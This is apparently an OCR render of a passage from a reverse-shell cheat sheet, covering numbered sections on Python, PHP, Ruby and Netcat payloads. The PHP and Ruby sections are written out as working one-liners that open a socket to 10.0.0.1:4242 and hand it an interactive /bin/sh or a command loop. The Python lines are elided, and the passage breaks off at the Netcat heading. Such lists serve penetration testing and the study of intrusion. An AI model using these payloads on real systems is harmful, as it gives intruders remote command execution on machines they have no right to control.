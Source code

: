 #### Windows Python2 / Python3

```python
# Python2
python.exe -c '...'

# Python3
python.exe -c "import socket,os,threading,subprocess as sp; ..."
```

_(Full payloads kept from original for reference)_

***

### **5. PHP Reverse Shells**

```php
php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",4242);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",4242);`/bin/sh -i <&3 >&3 2>&3`;'
php -r '$sock=fsockopen("10.0.0.1",4242);system("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",4242);passthru("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",4242);popen("/bin/sh -i <&3 >&3 2>&3", "r");'

php -r '$sock=fsockopen("10.0.0.1",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

***

### **6. Ruby Reverse Shells**

#### Linux

```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",4242).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

ruby -rsocket -e'exit if fork;c=TCPSocket.new("10.0.0.1","4242");loop{c.gets.chomp!;(exit! if $_=="exit");($_=~/cd (.+)/i?(Dir.chdir($1)):(IO.popen($_,?r){|io|c.print io.read}))rescue c.puts "failed: #{$_}"}'
```

#### Windows

```ruby
ruby -rsocket -e 'c=TCPSocket.new("10.0.0.1","4242");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

***

### **7. Netcat Reverse Shells**

#### Traditional
